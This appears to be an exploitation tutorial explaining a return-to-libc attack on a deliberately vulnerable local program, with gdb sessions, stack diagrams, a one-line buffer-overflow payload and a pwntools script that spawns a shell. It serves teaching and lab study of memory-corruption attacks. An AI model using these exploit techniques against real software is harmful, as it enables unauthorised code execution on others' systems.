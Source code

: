 # Bypass security techniques

Here, you will learn new techniques to exploit the programs that contain security mechanisms.

## Return-to-libc attack(ret2libc)

This attack includes searching addresses of useful functions within libc.

Again, consider our old stack-overflow program and determine the offset to return address within gdb:
```bash
gef➤  r < <(python -c 'print "A"*262 + "B"*4')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx < <(python -c 'print "A"*262 + "B"*4')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Now, find addresses within libc. An easy and always useful function to use in the exploit is a `system`, then, you need string `/bin/sh` as an argument to it and last function `exit`.

```bash
gef➤  b *main
Breakpoint 1 at 0x8049243
gef➤  r
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx

Breakpoint 1, 0x08049243 in main ()
gef➤  print system
$2 = {<text variable, no debug info>} 0xf7e02830 <system>
gef➤  print exit
$3 = {<text variable, no debug info>} 0xf7df5170 <exit>
gef➤  search-pattern /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx'(0x804a000-0x804b000), permission=r--
  0x804a008 - 0x804a00f  →   "/bin/sh"
[+] In '/home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx'(0x804b000-0x804c000), permission=r--
  0x804b008 - 0x804b00f  →   "/bin/sh"
[+] In '/lib/i386-linux-gnu/libc-2.31.so'(0xf7f35000-0xf7fa5000), permission=r--
  0xf7f4f352 - 0xf7f4f359  →   "/bin/sh"
gef➤  
```

Thus, you have the address of `system`, `exit`, and `/bin/sh` for the system as an argument. You just need to figure out how the stack works when you call a few functions in a row.

Usual stack view:
```
|        unused space       |
----------------------------- <--- some_func2()
|       func variables      |
-----------------------------
|         saved ebp         |
-----------------------------
|     saved ret address     |
-----------------------------
|       func arguments      |
----------------------------- <--- some_func() that calls some_func2()
|  previous func variables  |
-----------------------------
|      prev. saved ebp      |
-----------------------------
|  prev. saved ret address  |
-----------------------------
|    prev. func arguments   |
-----------------------------
```

The stack when you do a ret2libc attack:
```
|        unused space       |
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
| ret address to the system | <--- this is a place where the ret address stored for the current function(some function, whatever)
-----------------------------
|  ret address to the exit  |
-----------------------------
|    address of /bin/sh     |
-----------------------------
| null as end of input str. |
-----------------------------
```

After the first jump to the system function:
```
|        empty space        |
-----------------------------
|  ret address to the exit  | <--- this is a place where the ret address stored for the current function(system)
-----------------------------
|    address of /bin/sh     | <--- is considered as the first argument to the system
-----------------------------
| null as end of input str. |
-----------------------------
```

After the second jump to the exit function:
```
-----------------------------
| null as end of input str. | <--- as an argument to exit or exit with 0 code.
-----------------------------
|       something else      |
```

So, the final exploit will be just with all three correct address:
```bash
gef➤  r < <(python -c 'print "A"*262 + "\x30\x28\xe0\xf7" + "\x70\x51\xdf\xf7" + "\x52\xf3\xf4\xf7"')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx < <(python -c 'print "A"*262 + "\x30\x28\xe0\xf7" + "\x70\x51\xdf\xf7" + "\x52\xf3\xf4\xf7"')
[Detaching after vfork from child process 5366]
[Inferior 1 (process 5363) exited normally]
gef➤
```

You can see, that we executed child process. Try it outside gdb:
```bash
$ (python -c 'print "A"*262 + "\x30\x28\xe0\xf7" + "\x70\x51\xdf\xf7" + "\x52\xf3\xf4\xf7"'; cat) | ./stack-overflow-with-nx
w
 21:17:33 up 36 min,  1 user,  load average: 0.46, 0.37, 0.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shogun   tty7     :0               20:41   36:03   1:15   1.39s xfce4-session

```

Attack with `pwntools`:
```python
from pwn import *


# start the vuln program
p = process('./stack-overflow-with-nx')
system_addr = p32(0xf7e02830)
exit_addr = p32(0xf7df5170)
bin_sh_addr = p32(0xf7f4f352)
payload = b'A' * 262
payload += system_addr
payload += exit_addr
payload += bin_sh_addr
p.sendline(payload)
p.interactive()
```

For security such as ASLR, this will not work, because it will also randomize the addresses of key functions and arguments for this attack.
